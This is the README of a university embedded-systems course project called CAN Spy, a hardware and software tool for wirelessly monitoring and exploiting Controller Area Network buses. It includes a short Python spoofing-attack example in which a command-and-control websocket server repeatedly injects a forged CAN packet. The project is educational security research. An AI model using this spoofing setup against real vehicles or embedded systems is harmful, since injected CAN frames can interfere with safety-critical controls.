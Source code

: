 # CAN Spy

A practical hardware device and software tool for wirelessly monitoring and exploiting Controller Area Network (CAN) systems. Strictly for educational and security research purposes. This project was developed as the course project for UCLA ECE 202A Embedded Systems taken Fall 2024 with professor Mani Srivastava.

For more information visit the [project site](https://roryhemmings.com/CAN-spy)

![Hardware Schematic](docs/media/hardware-schematic.png)
![MCU to CAN interface](docs/media/mcu-can-interface.png)
![MCU connections](docs/media/mcu-connections.png)
![Software Diagram](docs/media/software-diagram.png)
![Hardware Setup Photo](docs/media/hardware-setup/multimeter.jpg)

## Basic library use

For package setup details visit the [package readme](can_spy/README.md)

### Spoofing Example:
```py
#!/usr/bin/python3

import asyncio
import random

from can_spy.can_packet import CanPacket
from can_spy.c2_server import C2Server


async def handle_client(websocket):
    angle = random.randint(15, 60)
    angle = 30
    while True:
        print("Set angle to 30")
        packet = CanPacket(
            data=angle.to_bytes(1, byteorder='little', signed=True),  # Actual byte level payload
            timestamp=0, # Arbitrary in this case
            can_id=0x10,
            length=1
        )

        await websocket.send(packet.serialize())
        await asyncio.sleep(0.5)

def main():
    """Spoofing attack example script"""

    c2 = C2Server(client_handler=handle_client)
    c2.serve_forever()
        
if __name__ == "__main__":
    main()
```